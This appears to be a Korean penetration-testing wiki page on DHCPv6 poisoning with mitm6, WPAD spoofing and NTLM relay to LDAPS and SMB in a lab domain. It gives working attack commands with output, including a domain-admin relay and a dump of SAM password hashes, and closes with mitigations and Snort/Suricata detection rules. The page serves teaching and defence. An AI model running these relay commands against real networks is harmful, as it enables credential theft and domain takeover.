

# DHCPv6 포이즈닝

### 설명&#x20;

DHCPv6 포이즈닝 공격은 네트워크에 공격자의 DHCPv6 서버를 실행해 네트워크브로드캐스트 범위 안 호스트들에게 공격자가 원하는 DHCPv6 설정을 전달하는 공격이다. DHCPv6 공격을 진행할 때 몇 가지 조건들만 잘 맞는다면 네트워크 내 아무 권한이 없던 공격자가 도메인 전체를 장악할 수도 있다.&#x20;

먼저 윈도우의 Name Resolution ("이름 풀이") 와 DHCP, 그리고 WPAD에 관련된 배경 지식에 대해서 알아보자.&#x20;

윈도우의 Name Resolution은 다음과 같은 순서로 진행된다.&#x20;

1. IPv6 DNS&#x20;
2. IPv4 DNS&#x20;
3. 레거시 Name Resolution 프로토콜 - LLMNR, NBT-NS, mDNS, 등

또한, DHCP는 다음과 같은 설정을 호스트에게 전달한다:&#x20;

1. 게이트웨이 주소  - ex. 10.1.1.1&#x20;
2. 서브넷 마스크 - ex. 255.255.255.0
3. DNS 서버 주소 - ex. 10.1.1.10
4. Vendor Class Identification&#x20;

따라서 네트워크 안 호스트가 google.com 을 방문하려고 할 때, 먼저 IPv6 DNS 서버를 사용해 google.com 의 IPv6 주소를 알아내려 한다. 이때, IPv6 DNS 서버가 설정되어 있지 않다면 해당 호스트는 DHCPv6 Solicit 메시지를 보내며 네트워크 안 DHCPv6 서버를 찾으려고 노력한다. 이때, 공격자가 **"내가 DHCPv6 서버니까 나한테서 DHCPv6 설정 정보 받아가!"** 라고 하는 것이 DHCPv6 포이즈닝 공격이다.&#x20;

공격자가 성공적으로 DHCPv6 설정을 타겟 호스트에게 전달할 수 있다면 타겟 호스트의 IPv6 주소를 할당하거나 IPv6 DNS 서버 주소를 공격자의 주소로 바꾸는 등의 공격을 진행할 수 있다. 그렇게 되면 타겟 호스트의 DNS 요청/응답을 공격자가 컨트롤 할 수 있게 된다. 이 공격은 다음에 나올 WPAD 스푸핑 공격과 함께 사용된다.&#x20;

대부분 기관들의 내부망 인프라에는 IPv6 DNS 설정까지 담당하는 DHCP v6 서버들이 많이 없다. 있다고하더라도 해도 DHCPv6 관련 보안 설정이 제대로 되어 있지 않은 경우가 있어 DHCPv6 포이즈닝 공격이 잘 먹힐때가 많다.&#x20;

### WPAD&#x20;

Windows Proxy Auto Discovery는 윈도우 호스트의 네트워크 프록시를 설정하는 기능이다. 예를 들어 회사에서 인터넷을 사용할 때 회사의 포워드 프록시 (Forward Proxy) 를 통해야 할텐데, 이를 설정하기 위해서 WPAD 기능이 사용된다. WPAD는 다음과 같은 방법으로 이뤄진다 (MS16-077 이후 DNS 서버만 사용)&#x20;

1. WPAD 기능을 사용할 호스트는 DNS 서버에 연락해 `wpad.choi.local` 호스트를 찾는다&#x20;
2. DNS 서버는 `wpad.choi.local` 의 위치와 WPAD 파일을 찾을 URL을 반환한다 - `wpad.choi.local/wpad.dat`&#x20;
3. 클라이언트는 WPAD 서버로 가 WPAD 파일을 받아온 뒤 설정을 적용한다. 다음부터 네트워크 프록시를 사용할 때 WPAD 설정 파일에 적혀져있는 프록시 서버 주소로 프록시 계정 정보 (대부분 도메인 유저 + 비밀번호)를 Net-NTLMv1/v2 형식으로 전달한다

### 악용&#x20;

다음은  DHCPv6 포이즈닝 공격과 WPAD 설정을 합쳐 악용하는 방법이다.&#x20;

1. 타겟 호스트가 Name Resolution을 위해 DHCPv6 Solicit 메시지를 보내며 IPv6 DNS 서버를 찾는다&#x20;
2. 위 메시지에 공격자가 응답하며 DHCPv6 포이즈닝을 실시한다
3. DHCPv6 포이즈닝으로 인해 타겟 호스트의 IPv6 DNS 서버를 공격자 서버 주소로 바꾼다&#x20;
4. 타겟 호스트가 WPAD 서버 `wpad.choi.local` 를 찾기 시작한다. 이때, 윈도우 Name Resolution 순서로 인해 IPv6 DNS 서버를 가장 먼저 이용한다. 이는 #3번으로 인해 공격자 주소로 변환되어 있기 때문에, 공격자 서버에게 가 WPAD 서버의 주소를 물어본다&#x20;
5. 공격자 서버는 WPAD 서버의 주소 또한 공격자 서버 주소로 알려준다. 타겟은 공격자 서버로 가 WPAD 파일을 요청한다
6. 공격자 서버는 프록시 서버 주소가 공격자 서버 주소로 설정되어 있는 가짜 wpad.dat 파일을 타겟에게 전달한다
7. 타겟 호스트는 공격자 서버로부터 `wpad.dat` 파일을 받아온 뒤, WPAD 설정을 한다. 이제 타겟의 프록시 서버는 공격자 서버로 설정되었다&#x20;
8. 앞으로 타겟의 모든 네트워크 프록시 요청들은 공격자 서버 주소를 지나가게 되며, 공격자에게 프록시 계정 정보가 담긴 Net-NTLMv1/v2 트래픽을 보내게 된다&#x20;

위 과정을 거쳐 타겟 호스트의 프록시 계정 정보가 담긴 Net-NTLMv1/v2 트래픽을 공격자가 받는다면, 이를 해시 크래킹 하거나 NTLM 릴레이 공격에 사용할 수 있다.&#x20;

### 실습 - DHCPv6 포이즈닝&#x20;

1. 먼저 타겟의 DHCPv6 메시지에 응답할 가짜 DHCPv6 서버를 `mitm6` 툴을 이용해 실행한다.&#x20;

```
└─# mitm6 -d choi.local  
                      
Starting mitm6 using the following configuration:
Primary adapter: eth0 [00:0c:29:52:ad:98]
IPv4 address: 192.168.40.132
IPv6 address: fe80::9657:ab93:4d68:306f
DNS local search domain: choi.local
DNS allowlist: choi.local
```

* 공격자 IPv4 주소: 192.168.40.132
* 공격자 IPv6 주소: fe80::9657:ab93:4d68:306f

2. 조금 기다리면 타겟 호스트가 Name Resolution을 한다. 구글 방문, 회사 이메일 체크, 회사 내부망 파일서버 접속 등. IPv6 Name Resolution이 가장 먼저 발생하게 되고, 이때 공격자 서버의 DHCPv6 포이즈닝 공격이 시작된다.&#x20;

```
IPv6 address fe80::192:168:40:151 is now assigned to mac=00:0c:29:e0:7a:44 host=wkstn01.choi.local. ipv4=192.168.40.151
Sent spoofed reply for wpad.choi.local. to fe80::789f:a0cd:a227:2c0
```

* 타겟 IPv4 주소: 192.168.40.151 (wkstn01.choi.local)&#x20;
* 할당된 타겟 IPv6 주소: fe80::789f:a0cd:a227:2c0

<figure><figcaption></figcaption></figure>

먼저 공격자의 가짜 DHCPv6 서버 `fe80::9657:ab93:4d68:306f` 가 ICMPv6를 이용해 Router Advertisement 를 하고 있다.&#x20;

그 뒤, 타겟 `fe80::789f:a0cd:a227:2c0` 은 IPv6 Name Resolution을 하기 위해 DHCPv6 Solicit 트래픽을 브로드캐스트 범위 `ff02` 에 뿌리고, 이에 공격자의 DHCPv6 서버가 Advertise 트래픽을 타겟에게 반환한다. 이후, DHCPv6 Solicit, Advertise, Request, Reply 과정을 통해 DHCPv6 포이즈닝 공격이 성공적으로 이뤄진다.&#x20;

3. 성공적인 DHCPv6 포이즈닝이 이뤄진 후 타겟의 IPv6 설정은 다음과 같다&#x20;

```
ps> ipconfig /all 

Link-local IPv6 Address . . . . . : fe80::789f:a0cd:a227:2c0%5(Preferred)
IPv4 Address. . . . . . . . . . . : 192.168.40.151(Preferred)
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . : 192.168.40.2
DHCPv6 IAID . . . . . . . . . . . : 100666409
DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-28-E1-9A-5D-00-0C-29-E0-7A-44
DNS Servers . . . . . . . . . . . : fe80::9657:ab93:4d68:306f%5
                                   192.168.40.150
                                   1.1.1.1
NetBIOS over Tcpip. . . . . . . . : Enabled
```

DNS 서버의 최상단에 공격자의 서버 주소인 `fe80::9657:ab93:4d68:306f%5` 가 포이즈닝 되서 설정되어 있다. 이제부터 타겟의 DNS Name Resolution은 IPv6 로 일어나고, 가장 먼저 공격자의 IPv6 DNS 서버로 가 Name Resolution을 실행한다.&#x20;

### DHCPv6 포이즈닝 + NTLM 릴레이 - LDAP/S

DHCPv6 포이즈닝 + WPAD 스푸핑 + NTLM LDAP/S 릴레이는 WPAD 때문에 아주 특이한 점이 있다. 타겟 호스트가 WPAD 를 요청할때는 HTTP 트래픽을 사용하는데, 이때 HTTP 트래픽은 LDAP Signing 여부와 상관없이 LDAPS 에 릴레이 하기만 하면 공격을 성공적으로 실행할 수 있다.&#x20;

| NTLM 종류 | 릴레이 할 서비스  | Signing 여부  | 성공 여부 |
| ------- | ---------- | ----------- | ----- |
| NTLMv1  | LDAP       | Required    | 실패    |
| NTLMv1  | LDAP       | Off         | 성공    |
| NTLMv1  | LDAPS      | Required    | 성공    |
| NTLMv1  | LDAPS      | Off         | 성공    |
| NTLMv2  | LDAP       | Required    | 실패    |
| NTLMv2  | LDAP       | Off         | 성공    |
| NTLMv2  | LDAPS      | Required    | 성공    |
| NTLMv2  | LDAPS      | Off         | 성공    |

다음 실습은 NTLMv2 + LDAPS + Signing Required 일 때를 가정한 실습이다.&#x20;

1. 타겟이 WPAD 호스트와 설정 파일 위치를 공격자 IPv6 DNS 서버에게 요청한다. 공격자는 서버 위치와 URL을 반환한다.&#x20;

```
// DHCPv6 포이즈닝과 WPAD 서버 위치 스푸핑 

└─# mitm6 -d choi.local                        
[ ... ] 
IPv6 address fe80::192:168:40:151 is now assigned to mac=00:0c:29:e0:7a:44 host=wkstn01.choi.local. ipv4=192.168.40.151
Sent spoofed reply for wpad.choi.local. to fe80::789f:a0cd:a227:2c0
```

2. 타겟 호스트는 WPAD 파일을 가지러 공격자 서버에게 NTLM 인증 트래픽을 HTTP를 통해 보낸다. Signing Required 이기 때문에 LDAPS 서비스로 릴레이한다.&#x20;

```
// 가짜 WPAD 설정 전달 후 들어오는 NTLMv2 요청을 LDAPS 로 릴레이 

└─# ntlmrelayx.py -6 -wh xfr.choi.local -t ldaps://192.168.40.150 -socks -debug -smb2support

[*] HTTPD(80): Client requested path: /wpad.dat           
[*] HTTPD(80): Serving PAC file to client ::ffff:192.168.40.151
[*] HTTPD(80): Connection from ::ffff:192.168.40.151 controlled, attacking target ldaps://192.168.40.150            
[*] HTTPD(80): Authenticating against ldaps://192.168.40.150 as CHOI/DA SUCCEED                                     
[*] Enumerating relayed user's privileges. This may take a while on large domains
[ ... ] 
```

타겟이 `/wpad.dat` 파일을 공격자 서버에게 요청하고, 공격자는 프록시 서버 주소에 공격자 서버 주소가 들어간 WPAD 파일을 반환한다. 이 WPAD 파일을 가지고 설정을 마친 타겟 호스트는 프록시를 사용할 때마다 공격자 서버로 프록시 계정 정보가 담긴 Net-NTLMv1/v2 계정 정보를 전송한다.&#x20;

위 실습에서는 프록시 계정 정보에 도메인 어드민 정보가 담겨 있었다. 그리고 이를 도메인 컨트롤러의 LDAPS 서비스에 릴레이 했다.&#x20;

`ldaps://192.168.40.150 as CHOI/DA SUCCEED` 메시지에서 보이듯,  da@choi.local 유저로 성공적으로 도메인 컨트롤러의 LDAPS 서비스에 인증을 했고, 이를 이용해 액티브 디렉토리 LDAP 데이터를 모두 빼내올 수 있었다.&#x20;


### DHCPv6 포이즈닝 + NTLM 릴레이 - SMB&#x20;

이번에는 SMB로 릴레이를 해본다. SMB의 경우 SMB Signing 여부에 따라 공격이 성공할 수도 있고 실패할 수도 있다. 또한, 타겟 호스트에서 어떤 유저가 프록시를 이용하는가도 중요하다.&#x20;

1. 먼저 DHCPv6 서버를 실행한다&#x20;

```
mitm6 -d choi.local -hw wkstn01.choi.local
```

2. 이후 SMB Signing 이 없는 서버로 릴레이 공격을 실행한다.&#x20;

```
ntlmrelayx.py -6 -wh xfr.choi.local -t smb://192.168.40.150 -smb2support 

[*] HTTPD(80): Authenticating against smb://192.168.40.150 as CHOI/DA SUCCEED
[*] Target system bootKey: 0x37b7fe1178c20af620c25feb531fbe0d
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

### 대응 방안&#x20;

NTLM 릴레이 대응 방안에 관련해서는 [ntlm-relay](ntlm-relay/ "mention")페이지를 참고한다. 이 페이지에서는 DHCPv6 포이즈닝 대응 방안에 대해서 알아본다.&#x20;

대응 방안은 크게 네트워크 기반, 호스트 기반이 있다. DHCPv6 포이즈닝의 경우 네트워크 기반의 대응 방안이 가장 중요하다. 호스트 기반의 대응 방안은 있긴 있으나, 여러가지 문제가 발생할 수 있기 때문에 많은 테스트를 거쳐야한다.&#x20;

#### 호스트 기반 대응 방안&#x20;

1. 호스트들의 IPv6 자체를 비활성화 시킨다. 이 경우, 특정 윈도우 기능이 작동하지 않거나 써드파티 스크립트/솔루션들이 작동하지 않을 수 있기 때문에 많은 테스트가 필요하다.&#x20;
2. 호스트들의 IPv6 DHCP Client Service 를 비활성화 시킨다. 이 경우, IPv6 자체는 이용할 수 있기 때문에 여러가지 문제가 생길 확률이 적다.&#x20;

* 내부망에서 IPv6 를 사용하지 않는다면 윈도우 호스트들의  DHCPv6 기능을 비활성화 시킨다 (RouterDiscovery + DHCPv6). 파워쉘을 이용하거나, GPO로 다음의 파워쉘을 내려보내 모든 호스트에 적용시킨다 (출처: [https://www.lmgsecurity.com/mitigating-ipv6-poisoning-attacks/](https://www.lmgsecurity.com/mitigating-ipv6-poisoning-attacks/))&#x20;
  *   ```sql
      Set-NetIPInterface -AddressFamily IPv6 -InterfaceIndex $(Get-NetIPInterface -AddressFamily IPv6 | Select-Object -ExpandProperty InterfaceIndex) -RouterDiscovery Disabled -Dhcp Disabled
      ```


* DHCPv6 전체를 비활성화 할 수 없는 경우 DHCP Client가 DHCPv6 메시지를 보낼 수 없도록 설정한다 (DHCP client only).
  * `Set-NetIPInterface <interfacealias> -AddressFamily IPv6 -dhcp disabled`\

* 내부망에서 IPv6가 사용되어 비활성화 시킬 수 없다면, IPv4 DNS를 IPv6 보다 더 우선순위에 두도록 우선순위를 바꿔준다. 단, 이 경우 MITM6 툴을 이용한 DHCPv6 포이즈닝 공격을 막을 수는 없다.&#x20;
  * ```sql
    New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\TCPIP6\Parameters" -Name "DisabledComponents" -Value 0x20 -PropertyType DWORD -Force
    ```
* 아예 IPv6 자체를 완전히 비활성화 하려면 다음의 파워쉘을 이용한다. 단, 프로덕션에 적용하기 전 충분한 테스트를 거친다. `0xff` = Disable IPv6 Completely&#x20;
  * `Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\Tcpip6\Parameters' -Name DisabledComponents -Value 0xff -Type DWORD`

#### 네트워크 기반 대응 방안&#x20;

* DHCPv6 Guard 를 지원하는 네트워크 기기 (예를 들어 네트워크 스위치, 등) 라면 DHCPv6 Guard 기능을 활성화한다.&#x20;
  * DHCPv6 Guard는 네트워크 내 인가받지 않은 Rogue DHCP 서버들이 Advertisement 및 Reply 메시지를 클라이언트들에게 전송하는 것을 막아주는 기능이다. \

* RA (Router Advertisement) Guard 기능을 지원하는 네트워크 기기라면 RA Guard 기능을 활성화한다.&#x20;
  * RA Guard는 네트워크 내 인가받지 않은 Rogue Router Advertisement 메시지를 막아주는 기능이다. \

* Rogue DHCPv6 서버 메시지들과 WPAD 응답 트래픽을 모니터링하는 다음의 Snort/Suricata 룰을 적용해 네트워크 모니터링을 한다. (출처: https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6)

```
# Snort & Suricata signatures for:
# https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6

alert udp fe80::/12 [546,547] -> fe80::/12 [546,547] (msg:"FOX-SRT - Policy - DHCPv6 advertise"; content:"|02|"; offset:48; depth:1; reference:url,blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/; threshold:type limit, track by_src, count 1, seconds 3600; classtype:policy-violation; sid:21002327; rev:2;)
alert udp ::/0 53 -> any any (msg:"FOX-SRT - Suspicious - WPAD DNS reponse over IPv6"; byte_test:1,&,0x7F,2; byte_test:2,>,0,6; content:"|00 04|wpad"; nocase; fast_pattern; threshold: type limit, track by_src, count 1, seconds 1800; reference:url,blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/; classtype:attempted-admin; priority:1; sid:21002330; rev:1;)
```

### MISC&#x20;

* 타겟 호스트의 WPAD 요청을 이끌어내기 위해서는 다양한 인터넷 브라우저를 켜고, 다양한 사이트에 방문하는 것이 가장 효과적이다.&#x20;
* 아무리 노력해도 타겟이WPAD 요청을  보내지 않는다면, 리부팅을 하는 것이 가장 효과적이다&#x20;


### 레퍼런스&#x20;




